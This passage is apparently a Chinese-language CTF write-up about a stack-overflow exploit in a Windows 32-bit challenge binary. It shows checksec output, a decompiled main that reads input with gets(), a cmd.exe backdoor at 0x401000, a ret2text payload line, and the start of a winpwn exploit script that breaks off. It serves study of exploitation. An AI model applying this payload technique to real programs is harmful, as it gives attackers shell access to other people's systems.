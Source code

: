 ### checksec

将程序利用scp下载到本地，然后checksec看一下保护机制

![img](https://xzfile.aliyuncs.com/media/upload/picture/20221120202436-4c0b38cc-68ce-1.png)

上面显示开了Canary，但是在ida分析的时候是没有开canary的

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[15]; // [esp+0h] [ebp-14h] BYREF
  char v5; // [esp+Fh] [ebp-5h]
  int i; // [esp+10h] [ebp-4h]

  memset(buf, 0, sizeof(buf));
  v5 = 0;
  gets(buf);
  for ( i = 0; i < 16; ++i )
    buf[i] = toupper(buf[i]);
  printf("%s\n", buf);
  return 0;
}
```

笔者修了一下之后ida分析结果最后如上

这个程序意思就是输入buf，然后把buf的小写字母转换成大写字母最后输出出来，但是gets的话会导致栈溢出漏洞

现在我们以linux平台下的攻击思路来的话就是一个ret2text，后门地址是0x401000

```
.text:00401000                               ;org 401000h
.text:00401000                               assume es:nothing, ss:nothing, ds:_data, fs:nothing, gs:nothing
.text:00401000 55                            push    ebp
.text:00401001 8B EC                         mov     ebp, esp
.text:00401003 68 00 B0 41 00                push    offset aCWindowsSystem          ; "C:\\Windows\\system32\\cmd.exe"
.text:00401008 E8 BF 2B 00 00                call    sub_403BCC
.text:00401008
.text:0040100D 83 C4 04                      add     esp, 4
.text:00401010 5D                            pop     ebp
.text:00401011 C3                            retn
```

ida分析之后发现偏移为0x14，所以`payload = b'a' * (0x14 + 4) + p32(0x401000)`

![img](https://xzfile.aliyuncs.com/media/upload/picture/20221120202453-560a570e-68ce-1.png)

发送过去之后成功的劫持了程序流到后门地址上，成功获取一个shell

最终exp

```
from winpwn import *
from time import *

context.log_level='debug'
context.arch='i386'

file_name = './ch72.exe'

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

debug = 0
if debug:
```